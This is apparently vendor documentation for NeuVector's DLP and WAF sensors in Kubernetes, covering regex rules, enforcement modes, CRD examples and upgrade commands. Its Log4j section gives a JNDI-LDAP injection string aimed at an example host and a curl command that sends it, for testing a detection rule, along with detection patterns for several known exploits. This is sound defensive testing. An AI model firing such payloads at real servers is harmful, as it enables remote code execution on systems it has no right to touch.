







### Data Loss Prevention (DLP) and Web Application Firewall (WAF)
DLP and WAF uses the Deep Packet Inspection (DPI) of NeuVector to inspect the network payloads of connections for sensitive data violations. NeuVector uses a regular expression (regex) based engine to perform packet filtering functions. Extreme care should be taken when applying sensors to container traffic, as the filtering function incurs additional system overhead and can impact performance of the host.

####WAF Sensors
WAF sensors represent inspection of incoming network traffic to a pod/container. These sensors can be applied to any applicable group, even custom groups (e.g. namespace groups). Incoming traffic to ALL containers within the group will be inspected for WAF rule detection. This means that, while this feature is named WAF, it is useful and applicable to any network traffic, not only web application traffic, and therefore provides broader protections than simple WAFs. Also note that, while similar to DLP, the inspection is for incoming traffic only to EVERY pod/container within the group, while DLP applies inspection to incoming and outgoing traffic from the group only (ie the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers).



#### DLP Sensors
DLP Sensors are the patterns that are used to inspect traffic. Built in sensors such as credit card and U.S. social security have predefined regular expressions. You can add custom sensors by defining regex patterns to be used in that sensor. Note that, while similar to WAF, DLP applies inspection to incoming and outgoing traffic from the group only (ie the security boundary), not internal traffic in the group (e.g. not east-west within a Group's containers). WAF inspection is for incoming traffic only to EVERY pod/container within the group.



####Configuring DLP and WAF sensors
The configuration of DLP and WAF sensors is similar. Create a sensor Name and any comment, then select the sensor to Add or Edit the rules for that sensor. Key fields include:
+ Have/Not Have. Determines if the match requires the pattern to be found (Have) in order to take the action (e.g. Deny), or only if the pattern does not exist (Not Have) should the action be taken. It is recommended that the "Not Have" operator be combined in the rule with a pattern using the "Have" operator because a single pattern with "Not Have" operator will not be effective.
+ Pattern. This is the regular expression used to determine a match. You can test your regex against sample data to ensure correct Have/Not Have results.
+ Context. Where to look for the pattern match. Choose packet for the broadest inspection of the entire network connection, or narrow the inspection to the URL, header, or body only.




Each DLP/WAF rule supports multiple patterns (max 16 patterns are allowed per rule). Multiple patterns as well as setting the rule context can also help reduce false positives.

Example of a DLP rule with a Have/Not Have pattern:
Have:
```
\b3[47]\d{2}([ -]?)(?!(\d)\2{5}|123456|234567|345678)\d{6}\1(?!(\d)\3{4}|12345|56789)\d{5}\b
```
This produces a false positive match for "istio_agent_go_gc_duration_seconds_sum 22.378386247999998":
```
$ docker exec -ti httpclient sh
/ # curl -d "{\"context\": \"istio_agent_go_gc_duration_seconds_sum 22.378386247999998\"}" 172.17.0.5:8080/
Hello, world!
```
Adding a Not Have pattern removes the false positive:
```
istio\_(\w){5}
```


***Sensors must be applied to a Group to become effective.***

#### Applying DLP/WAF Sensors to Container Groups
To activate a DLP or WAF sensor, go to Policy -> Groups to select the group desired. Enable DLP/WAF for the Group and add the sensor(s).

It is recommended that DLP sensors be applied to the boundary of a security zone, defined by a Group, to minimize the impact of DLP inspection. If needed, define a customer Group that represents such a security zone.  For example, if the Group selected is the reserved group 'containers', and DLP sensors added to the group, only traffic in or out of the cluster and not between all containers will be inspected. Or if it is a custom group defined as 'namespace=demo' then only traffic in or out of the namespace demo will be inspected, and not any inter-container traffic within the namespace.

It is recommended that WAF sensors be applied only to Groups where incoming (e.g. ingress) connections are expected, unless the sensor(s) apply to specific internal applications (expecting east-west traffic).



<strong>DLP/WAF Behavior Summary</strong>

+ DLP pattern matching does not occur for the traffic which is passing among workloads that belong to same DLP group.
+ Any traffic passing in and out of a DLP group is scanned for pattern matches. 
+ Cluster ingress and egress traffic is scanned for patterns if the workload is allowed to make ingress/egress connections.
+ Multiple patterns per DLP/WAF rule (max 16 patterns are allowed per rule).
+ Multiple alerts are generated for a single packet if it matches multiple rules.
+ For performance reasons, only the first 16 rules are alerted and matched even if the packet matches more than 16 rules.
+ Alerts are aggregated and reported together if same rule matches and alerts multiple times within 2 seconds.
+ PCRE is used for pattern matching. 
+ Hyper scan library is used for efficient, scalable and high-performance pattern matching.

#### DLP/WAF Actions in Discover, Monitor, Protect Modes
When adding sensors to groups, the DLP/WAF action can be set to Alert or Deny, with the following behavior if there is a match:
+ Discover mode. The action will always be to alert, regardless of the setting Alert/Deny.
+ Monitor mode. The action will always be to alert, regardless of the setting Alert/Deny.
+ Protect mode. The action will be to alert if set to Alert, or block if set to Deny.

####Log4j Detection WAF Pattern
The WAF-like rule to detect the Log4j attempted exploit is below. Please note this should only be applied to Groups expecting ingress web connections.
```
\$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
```

Also note that there are ways that attackers could bypass detection by such rules.

####Testing the Log4j WAF Detection
In an attempted exploit, the attacker will construct an initial jndi: insertion and include it in the User-Agent HTTP Header:
```
User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}
```

Using curl to POST data to server(container) can help to test WAF rule:
```
curl  -X POST -k  -H "X-Auth-Token: $_TOKEN_" -H "Content-Type: application/json" -H "User-Agent: ${jndi:ldap://enq0u7nftpr.m.example.com:80/cf-198-41-223-33.cloudflare.com.gu}" -d '$SOME_DATA' "http://$SOME_IP_:$PORT"
```

#### Sample Alerts

DLP match in Discover or Monitor Mode



DLP match in Protect Mode



DLP Security Event Notification for Credit Card Match


NOTE: The automated packet capture will contain the actual packet including the credit card number matched. This is also true of any DLP packet capture for any sensitive data.

### Managing WAF Rules Using Import/Export or CRDs
It is possible to import or export WAF rules from the WAF screen. This can be useful to be able to propagate rules to other clusters, make a backup, or prepare them for applying as a CRD.

In order to create WAF sensors or apply a WAF sensor to a group using CRDs, make sure the appropriate NVWafSecurityRule cluster role binding is created.

Sample WAF sensor CRD
```
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvWafSecurityRule
  metadata:
    name: sensor.execution
  spec:
    sensor:
      comment: arbitrary command execution attempt
      name: sensor.execution
      rules:
      - name: Alchemy
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/NUL\/.*\.\.\/\.\.\/
      - name: Log4j
        patterns:
        - context: header
          key: pattern
          op: regex
          value: \$\{((\$|\{|\s|lower|upper|\:|\-|\})*[jJ](\$|\{|\s|lower|upper|\:|\-|\})*[nN](\$|\{|\s|lower|upper|\:|\-|\})*[dD](\$|\{|\s|lower|upper|\:|\-|\})*[iI])((\$|\{|\s|lower|upper|\:|\-|\})|[ldapLDAPrmiRMIdnsDNShttpHTTP])*\:\/\/.*
      - name: formmail
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/formmail
        - context: packet
          key: pattern
          op: regex
          value: \x0a
      - name: CCBill
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whereami\.cgi?.*g=
      - name: DotNetNuke
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Install\/InstallWizard.aspx.*executeinstall
      - name: HNAP
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/tmUnblock.cgi
        - context: header
          key: pattern
          op: regex
          value: 'Authorization: Basic\s*YWRtaW46'
      - name: Magento
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/Adminhtml_.*forwarded=
      - name: b2
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/b2\/b2-include\/.*b2inc.*http\x3a\/\/
      - name: bat
        patterns:
        - context: url
          key: pattern
          op: regex
          value: x2ebat\x22.*?\x26
      - name: eshop.pl
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/eshop\.pl?.*seite=\x3b
      - name: whois_raw.cgi
        patterns:
        - context: url
          key: pattern
          op: regex
          value: \/whois_raw\.cgi?
        - context: packet
          key: pattern
          op: regex
          value: \x0a
kind: List
metadata: null
```

Sample CRD to apply a WAF sensor to a Group
```
apiVersion: v1
items:
- apiVersion: neuvector.com/v1
  kind: NvSecurityRule
  metadata:
    name: demo-group
    namespace: demo
  spec:
    egress: []
    file: []
    ingress: []
    process: []
    process_profile:
      baseline: default
    target:
      policymode: N/A
      selector:
        comment: ""
        criteria:
        - key: domain
          op: =
          value: demo
        - key: service
          op: =
          value: nginx-pod.demo
        - key: service
          op: =
          value: node-pod.demo
        name: demo-group
        original_name: ""
    waf:
      settings:
      - action: deny
        name: sensor.cross
      - action: deny
        name: sensor.execution
      - action: deny
        name: sensor.injection
      - action: deny
        name: sensor.traversal
      - action: deny
        name: wafsensor-1
      status: true
kind: List
metadata: null
```
See the [CRD section](/policy/usingcrd) for more details on working with CRDs.

### DLP/WAF Response Rules
Response rules based on DLP/WAF security events can be created in Policy ->Response Rules. Start type DLP or WAF and the dropdown will list all sensors and patterns available to create rules.



###Adding WAF CRD Support to Previous NeuVector Deployments
1. Delete old neuvector-binding-customresourcedefinition clusterrole
```
kubectl delete clusterrole neuvector-binding-customresourcedefinition
```
2. Apply new update verb for neuvector-binding-customresourcedefinition clusterrole
```
kubectl create clusterrole neuvector-binding-customresourcedefinition --verb=watch,create,get,update --resource=customresourcedefinitions
```
3. Delete old crd schema for Kubernetes 1.19+
```
kubectl delete -f https://raw.githubusercontent.com/neuvector/manifests/main/kubernetes/crd-k8s-1.19.yaml
```
4. Create new crd schema for Kubernetes 1.19+
```
kubectl apply -f https://raw.githubusercontent.com/neuvector/manifests/main/kubernetes/5.0.0/crd-k8s-1.19.yaml
kubectl apply -f https://raw.githubusercontent.com/neuvector/manifests/main/kubernetes/5.0.0/waf-crd-k8s-1.19.yaml
```
5. Create a new neuvector-binding-nvwafsecurityrules clusterrole and clusterrolebinding
```
kubectl create clusterrole neuvector-binding-nvwafsecurityrules --verb=list,delete --resource=nvwafsecurityrules
kubectl create clusterrolebinding neuvector-binding-nvwafsecurityrules --clusterrole=neuvector-binding-nvwafsecurityrules --serviceaccount=neuvector:default
```

